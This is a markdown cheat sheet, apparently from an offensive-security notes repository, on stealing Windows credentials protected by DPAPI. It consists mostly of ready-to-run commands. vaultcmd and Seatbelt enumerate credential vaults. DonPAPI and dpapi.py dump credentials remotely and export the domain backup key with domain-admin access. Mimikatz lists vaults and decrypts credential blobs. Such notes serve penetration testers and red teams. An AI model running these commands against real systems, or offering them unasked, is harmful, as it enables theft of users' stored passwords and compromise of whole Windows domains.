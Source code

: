 ## DPAPI
- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/reading-dpapi-encrypted-secrets-with-mimikatz-and-c++

#### Enumerate user's vault
```
vaultcmd /list
vaultcmd /listcreds:"Windows Credentials" /all
vaultcmd /listcreds:"Web Credentials" /all

./Seatbelt.exe WindowsVault

./Seatbelt.exe WindowsCredentialFiles
```

### DonPAPI
- https://github.com/login-securite/DonPAPI
- DonPAPI can remotely read lsass,sam,dpapi etc. Requires local admin access.
- Place creds in file and use ```-credz``` flag.
- Also possible to set a list of hosts!

#### Read creds with credz.txt
```
python3 DonPAPI.py -credz credz.txt <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Retrieve backup key with DA
```
python3 dpapi.py backupkeys --export -t <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

#### Read all creds with backup key
```
python3 DonPAPI.py -pvk domain_backupkey.pvk <DOMAIN>/<USER>:<PASSWORD>@<IP>
```

### Credential manager
#### List vault of the current user
```
Invoke-Mimikatz -Command '"vault::list"'
```

#### Check for blobs for user
- Can be in Roaming or Local for all commands!
```
ls C:\Users\<USER>\AppData\Local\Microsoft\Credentials -Hidden
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Credentials -Hidden

./Seatbelt.exe WindowsCredentialFiles
```

#### Find master encryption key ID
- The ```pbData``` field contains the encrypted data and the ```guidMasterKey``` contains the GUID of the key needed to decrypt it. 
```
Invoke-Mimikatz -Command '"dpapi::cred /in:C:\Users\<USER>\AppData\Local\Microsoft\Credentials\<BLOB ID>"'
ls C:\Users\<USER>\AppData\Roaming\Microsoft\Protect\<USER SID> -Hidden
```

